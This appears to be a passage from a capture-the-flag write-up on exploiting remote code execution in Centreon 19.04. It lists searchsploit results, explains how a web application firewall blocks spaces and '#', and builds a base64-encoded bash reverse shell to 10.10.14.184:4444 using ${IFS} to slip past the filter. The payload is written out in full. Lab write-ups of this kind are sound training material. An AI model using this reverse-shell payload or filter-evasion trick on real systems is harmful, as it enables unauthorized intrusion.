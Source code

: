 We search for the available exploits on this solution. Most of the know exploits
are old but the one concerning Centreon 19.04.

    :::text
    # searchsploit centreon
    --------------------------------------- ----------------------------------------
     Exploit Title                         |  Path
                                           | (/usr/share/exploitdb/)
    --------------------------------------- ----------------------------------------
    Centreon - SQL Injection / Command Inj | exploits/unix/remote/35078.rb
    Centreon 1.4.2.3 - 'get_image.php' Rem | exploits/php/webapps/5204.py
    Centreon 1.4.2.3 - 'index.php' Local F | exploits/php/webapps/31318.txt
    Centreon 19.04  - Remote Code Executio | exploits/php/webapps/47069.py
    Centreon 2.3.1 - 'command_name' Remote | exploits/php/webapps/36293.txt
    Centreon 2.5.3 - Remote Command Execut | exploits/php/webapps/39501.txt
    Centreon 2.5.3 - Web Useralias Command | exploits/python/remote/40170.rb
    Centreon 2.5.4 - Multiple Vulnerabilit | exploits/php/webapps/37528.txt
    Centreon 2.6.1 - Multiple Vulnerabilit | exploits/php/webapps/38339.txt
    Centreon < 2.5.1 / Centreon Enterprise | exploits/linux/webapps/41676.rb
    Centreon Enterprise Server 2.3.3 < 2.3 | exploits/php/webapps/23362.py
    Centreon IT & Network Monitoring 2.1.5 | exploits/php/webapps/11979.pl
    Oreon 1.4 / Centreon 1.4.1 - Multiple  | exploits/php/webapps/4735.txt
    --------------------------------------- ----------------------------------------
    Shellcodes: No Result
    Papers: No Result

A quick Google research let us find
[an article about the vulnerability](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/).

If we directly use the exploit, we will see that our  payload is blocked with a
403 error. There is a WAF blocking some characters A little digging allow use
to find the allowed and blocked ones. The spaces are blocked, the `#` is blocked
but the `()` and the `$` the `;` and the `|` are allowed. We can use encode our payload
using `base64` in order to execute a payload with encoded characters.

In order to replace the spaces in our payload we must use `${IFS}`
[variable](https://bash.cyberciti.biz/guide/$IFS)

We want to use the default `bash` reverse shell:
`bash -i >& /dev/tcp/10.10.14.184/4444 0>&1`

We want to pipe it to `base64 -d` and pipe the result to bash. Then we need to
discard the rest of the command (as the argument will not be valid). As the `#`
character is blocked, we can use a `;`. Our command will be executed and then
the rest will failed with an error, but we do not care as our command will be
executed first.

Our final payload is `echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODQvNDQ0NCAwPiYx|base64${IFS}-d|bash${IFS}-;`

As the script is not reliable we do it manually directly in the interface. We
access the poller interface.
